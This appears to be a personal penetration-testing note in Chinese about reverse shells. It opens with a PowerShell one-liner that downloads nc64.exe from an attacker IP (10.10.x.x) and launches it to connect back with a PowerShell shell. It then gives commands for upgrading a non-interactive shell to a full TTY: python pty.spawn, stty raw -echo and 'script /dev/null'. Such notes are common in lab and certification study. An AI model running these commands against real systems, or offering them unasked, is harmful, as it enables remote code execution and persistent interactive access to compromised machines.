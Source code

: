 ### [[powershell#^95a867|传递nc64反连]] ^f2016a
```powershell
powershell -noprofile -Command "Invoke-WebRequest http://10.10.x.x/nc64.exe -OutFile C:\Users\Public\nc64.exe" & C:\Users\Public\nc64.exe 10.10.x.x 4444 -e powershell
```
- nc不行可以试试[ncat](https://github.com/andrew-d/static-binaries/tree/master/binaries/windows/x86)
- 切换用户：注意[[横向#RunasCs]]的妙用


## 交互式

通常反弹shell都是非交互式的——意味着无法使用交互式命令（如ssh，不会显示是否加入新的公钥）

![[Pasted image 20240414182935.png]]


### Upgrading TTY

> https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
#### python

> upgrade to a pseudo TTY

试了下就这个最好用。其他不知道为什么不支持tab键。

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
Ctrl+Z,  stty raw -echo; fg; reset

export TERM=xterm-256color
export SHELL=bash
```

此时反弹shell并没有覆盖整个终端
```bash
# 在自己的终端确认大小
stty size

# 在反弹shell配置终端大小
stty rows 47 columns 176
```

- stty：Set TeleTYpewriter
- 关闭攻击端的终端回显（terminal echo。即tab、方向键、Ctrl+C功能，之后便可在反弹shell里使用）
- 要恢复回显：reset，回车。（上面命令自动化了，退出`fg`的shell后自动执行`reest`）



#### script

`script /dev/null -c bash`

> [What Happens In a "Shell Upgrade"?](https://www.youtube.com/watch?v=DqE6DxqJg8Q)
